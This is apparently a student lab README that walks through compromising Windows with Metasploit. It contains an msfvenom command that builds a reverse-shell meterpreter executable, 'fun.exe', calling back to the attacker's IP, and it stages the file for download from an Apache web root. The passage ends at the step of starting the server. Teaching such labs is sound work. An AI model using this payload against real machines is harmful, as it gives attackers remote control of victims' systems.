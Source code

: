# Compromising-windows-using-Metasploit

### NAME: K Charan Teja
### REG NO:212224040163

Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig

### OUTPUT:

<img width="576" alt="image" src="https://github.com/user-attachments/assets/c06b56b4-a982-40a1-9e7f-7c044328aa84">

Create a malicious executable file fun.exe using msfvenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.29.175 -f exe > fun.exe

<img width="713" alt="image" src="https://github.com/user-attachments/assets/1686c359-94b9-4c61-a93a-df218cdedef9">

copy the fun.exe into the apache /var/www/html folder 

<img width="343" alt="image" src="https://github.com/user-attachments/assets/51ce9b94-49e1-4733-9c4a-3c444bfd0a67">

Start apache server sudo systemctl apache2 start

<img width="359" alt="image" src="https://github.com/user-attachments/assets/bfb3314a-07c3-4406-a31d-f70c0c25abdb">
